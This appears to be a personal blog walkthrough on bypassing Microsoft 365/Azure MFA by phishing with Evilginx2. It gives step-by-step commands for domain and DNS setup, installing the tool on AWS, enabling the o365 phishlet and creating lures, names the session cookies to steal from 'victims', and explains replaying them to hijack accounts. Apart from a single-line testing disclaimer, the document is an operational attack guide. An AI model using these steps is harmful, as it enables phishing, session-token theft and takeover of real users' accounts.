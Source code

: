 ```yaml
---
description: >-
  In that blog I will try to explain which implementation that I have done in
  order to bypass MFA in Azure.
---
```


# Bypassing MFA with Evilginx2

### Take a domain name in Freenom.&#x20;

[freenom.com ](https://freenom.com)is giving you great opportunity to take free domain names so just a grab one there.&#x20;

After taking a domain name. You need to create EC2 instance in your AWS accoount. Of course you can use some virtual private server provider or some hosting provider but for me it was easy to configure that in AWS.&#x20;

I have configured AWS ubuntu in my account.&#x20;

And uploaded to there evilginx2 phishing tool. For evilginx2 tool worked properly you should configure DNS records there, without configuring these records it will be hard to get tokens of your victims.&#x20;

As the first step you need to install go in your instance.&#x20;

```
apt install golang-go
go get -u github.com/kgretzky/evilginx2
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
make install
```

&#x20;Now you should not run evilginx because we didn't configure our DNS.&#x20;

Let's turn back to our freenom.com page and manage our domain.&#x20;

![](<../../.gitbook/assets/image (4).png>)



From that section go to DNS configuration place.&#x20;

![](<../../.gitbook/assets/image (5).png>)

Then Manage DNS section.&#x20;

![](<../../.gitbook/assets/image (2) (2).png>)

Put there the subdomains that you want to use. Actually, it depends on which phishlets you will use. But in my case I have used o365 phishlet so, I have added to there `account` and `login`. &#x20;

And your EC2 instance public IP that you will use.&#x20;

After adding these we need to implement our nameserver glue records.&#x20;

![](<../../.gitbook/assets/image (3) (1).png>)

From that section you need to put your domain name records.&#x20;

![](<../../.gitbook/assets/image (1) (1).png>)



In my case, I have added my domain name record there and my public EC2 instance IP.&#x20;

yeah after that comes waiting part because changing these records to be implemented in the system takes time.&#x20;

After adding these sections go to your EC2 instance and connect via the terminal.&#x20;

Probably you will have problem with DNS, HTTPS, HTTP connections. So you need to be aware these are open to all IPs with your security groups.&#x20;

I have done some DNS implementations in my AWS EC2 instance. Maybe that will not work for you case but in case you will have a problem when you run evilginx. Like `Failed to conned port 53` . Here is the solution that worked for me.&#x20;

```
 sudo rm /etc/resolv.conf
 ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf
 
 systemctl stop systemd-resolved.service
```

in your /etc/hosts file add that section.&#x20;

```
internal-ip yourdomain.com
```

After these configurations run your evilginx with debug because I was not able to configure any phishlet to save tokens.&#x20;



run these commands for running evilginx in debug mode.&#x20;

```
evilginx -debug
```



in evilginx2 run these command,&#x20;

```
config domain yourdomain.com
config ip a.b.c.d

blacklist unauth

phishlets enable o365
lures create o365
lures edit #putIDthere redirect_url https://portal.azure.com
lures get-url #putIDthere

```

After getting the URL from evilginx open an incognito browser and test.&#x20;

In my case, evilginx was not able to save tokens of my victims(my account here). But in debug mode, I was able to see these tokens.&#x20;



For o365 phishlet, you need to sniff these tokens&#x20;

```
ESTSAUTHPERSISTENT
ESTSAUTH
ESTSAUTHLIGHT
SignInStateCookie
```

![](<../../.gitbook/assets/image (2) (1).png>)



After taking these values go to your browser and with cookie editor extension change these while trying to login [https://www.office.com/?auth=2](https://www.office.com/?auth=2) and refresh the page.&#x20;

You are in.&#x20;

```
Please use it for testing purposes. 
```



